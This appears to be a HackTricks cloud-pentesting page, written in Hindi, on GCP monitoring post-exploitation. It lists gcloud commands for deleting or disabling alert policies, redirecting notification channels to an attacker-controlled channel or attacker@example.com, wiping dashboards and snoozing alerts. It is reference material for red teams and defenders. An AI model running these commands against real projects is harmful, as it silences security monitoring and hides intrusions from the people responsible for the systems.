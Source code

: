 # GCP - Monitoring Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Monitoring

अधिक जानकारी के लिए देखें:

{{#ref}}
../gcp-services/gcp-monitoring-enum.md
{{#endref}}

लॉग को बाधित करने के अन्य तरीकों के लिए देखें:

{{#ref}}
gcp-logging-post-exploitation.md
{{#endref}}

### `monitoring.alertPolicies.delete`

एक अलर्ट नीति को हटाएं:
```bash
gcloud alpha monitoring policies delete <policy>
```
### `monitoring.alertPolicies.update`

एक अलर्ट नीति को बाधित करें:
```bash
# Disable policy
gcloud alpha monitoring policies update <alert-policy> --no-enabled

# Remove all notification channels
gcloud alpha monitoring policies update <alert-policy> --clear-notification-channels

# Chnage notification channels
gcloud alpha monitoring policies update <alert-policy> --set-notification-channels=ATTACKER_CONTROLLED_CHANNEL

# Modify alert conditions
gcloud alpha monitoring policies update <alert-policy> --policy="{ 'displayName': 'New Policy Name', 'conditions': [ ... ], 'combiner': 'AND', ... }"
# or use --policy-from-file <policy-file>
```
### `monitoring.dashboards.update`

एक डैशबोर्ड को संशोधित करें ताकि इसे बाधित किया जा सके:
```bash
# Disrupt dashboard
gcloud monitoring dashboards update <dashboard> --config='''
displayName: New Dashboard with New Display Name
etag: 40d1040034db4e5a9dee931ec1b12c0d
gridLayout:
widgets:
- text:
content: Hello World
'''
```
### `monitoring.dashboards.delete`

डैशबोर्ड हटाएं:
```bash
# Delete dashboard
gcloud monitoring dashboards delete <dashboard>
```
### `monitoring.snoozes.create`

अलर्ट उत्पन्न करने से नीतियों को रोकने के लिए एक स्नूज़र बनाएं:
```bash
# Stop alerts by creating a snoozer
gcloud monitoring snoozes create --display-name="Maintenance Week" \
--criteria-policies="projects/my-project/alertPolicies/12345,projects/my-project/alertPolicies/23451" \
--start-time="2023-03-01T03:00:00.0-0500" \
--end-time="2023-03-07T23:59:59.5-0500"
```
### `monitoring.snoozes.update`

स्नूज़र का समय अपडेट करें ताकि हमलावर की रुचि के समय अलर्ट उत्पन्न न हों:
```bash
# Modify the timing of a snooze
gcloud monitoring snoozes update <snooze> --start-time=START_TIME --end-time=END_TIME

# odify everything, including affected policies
gcloud monitoring snoozes update <snooze> --snooze-from-file=<file>
```
### `monitoring.notificationChannels.delete`

एक कॉन्फ़िगर किया गया चैनल हटाएँ:
```bash
# Delete channel
gcloud alpha monitoring channels delete <channel>
```
### `monitoring.notificationChannels.update`

एक चैनल के लेबल को अपडेट करें ताकि इसे बाधित किया जा सके:
```bash
# Delete or update labels, for example email channels have the email indicated here
gcloud alpha monitoring channels update CHANNEL_ID --clear-channel-labels
gcloud alpha monitoring channels update CHANNEL_ID --update-channel-labels=email_address=attacker@example.com
```
{{#include ../../../banners/hacktricks-training.md}}
